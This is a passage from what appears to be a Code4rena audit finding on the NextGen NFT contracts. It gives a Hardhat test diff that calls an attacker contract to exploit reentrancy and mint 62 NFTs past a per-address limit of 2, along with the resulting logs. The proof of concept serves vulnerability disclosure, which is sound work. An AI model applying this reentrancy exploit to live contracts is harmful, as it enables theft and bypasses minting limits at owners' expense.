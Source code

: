 ```diff
  hhRandomizer: hhRandomizer,
  hhRandoms: hhRandoms,
+    attacker: attacker,
}

const signers = {
```

Add the test inside the test file https://github.com/code-423n4/2023-10-nextgen/blob/8b518196629faa37eae39736837b24926fd3c07c/hardhat/test/nextGen.test.js:

```diff
diff --git a/nextGen.test.original.js b/nextGen.test.js
index fa3864c..667795f 100644
--- a/nextGen.test.original.js
+++ b/nextGen.test.js
@@ -269,6 +269,27 @@ describe("NextGen Tests", function () {
})

context("Minting", () => {
+    it("EXPLOIT: mint more NFTs from collection 1 than the allowed amount (Reentrancy)", async function () {
+      console.log('Max Allowed to mint tokens per address: ', await contracts.hhCore.viewMaxAllowance(1));
+      const attackerAddress = await contracts.attacker.getAddress();
+      const balanceBeforeAttack = await contracts.hhCore.balanceOf(attackerAddress);
+      console.log(`Attacker's balance before the attack: `, balanceBeforeAttack);
+
+      await contracts.attacker.mint({
+        _collectionID: 1,
+        _numberOfTokens: 2,
+        _maxAllowance: 0,
+        _tokenData: '{"tdh": "100"}',
+        _mintTo: attackerAddress,
+        merkleProof: ["0x8e3c1713145650ce646f7eccd42c4541ecee8f07040fc1ac36fe071bbfebb870"],
+        _delegator: signers.addr1.address,
+        _saltfun_o: 2
+      })
+
+      const balanceAfterAttack = await contracts.hhCore.balanceOf(attackerAddress);
+      console.log(`Attacker's balance after the attack: `, balanceAfterAttack);
+    });
+
  it("#mintNFTCol1", async function () {
    await contracts.hhMinter.mint(
      1, // _collectionID
```

If we run the tests with npx hardhat test we get the following logs:

```
Max Allowed to mint tokens per address:  2n
Attacker's balance before the attack:  0n
Attacker's balance after the attack:  62n
```
